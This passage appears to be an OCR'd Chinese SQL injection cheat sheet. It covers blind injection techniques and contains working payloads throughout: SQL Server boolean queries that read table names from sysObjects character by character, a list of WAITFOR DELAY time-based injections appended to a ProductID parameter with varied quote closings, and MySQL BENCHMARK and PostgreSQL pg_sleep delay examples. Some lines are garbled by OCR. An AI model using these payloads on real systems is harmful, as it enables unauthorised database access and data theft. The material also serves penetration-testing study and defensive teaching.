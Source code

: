 TRUE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) 
FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80-- 
 
FALSE : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)

当最后两个查询失败我们可以毫无疑问地确定表名第一个字符的 ASCII 值是 80，这意味着第一个字符是 P。这就是使用二分查找算法进行 SQL 盲注的方法。另一个常见的方法是一位一位（bit）地读取数据。这两个方法在不同情况下都有效。

延时盲注

首先，在完全没有提示（really blind）的情况下才使用，否则使用 1/0 方式的错误辨认差异。其次，使用超过 20 秒的延时需要小心，因为数据库的 API 连接或脚本可能出现超时。

WAIT FOR DELAY ‘time’（S）

这个与sleep一样，等待指定的时间。通过 CPU 安全的方法让数据库等待。

WAITFOR DELAY '0:0:10'--

另外，你也可以使用分数，像这样

WAITFOR DELAY '0:0:0.51'

真实案例

是否‘sa’用户？
if (select user) = ‘sa’ waitfor delay ‘0:0:10’
ProductID = 1;waitfor delay ‘0:0:10’–
ProductID =1);waitfor delay ‘0:0:10’–
ProductID =1′;waitfor delay ‘0:0:10’–
ProductID =1′);waitfor delay ‘0:0:10’–
ProductID =1));waitfor delay ‘0:0:10’–
ProductID =1′));waitfor delay ‘0:0:10’–

BENCHMARK()（M）

基本上，很多人滥用这个命令来做 MySQL 的延时。小心使用，这会很快地消耗服务器的资源！

BENCHMARK(howmanytimes, do this)
真实案例

判断是否 root 用户

IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))

判断表是否存在

IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))

pg_sleep(seconds)（P）

睡眠指定的秒数。

SELECT pg_sleep(10);
睡眠 10 秒。

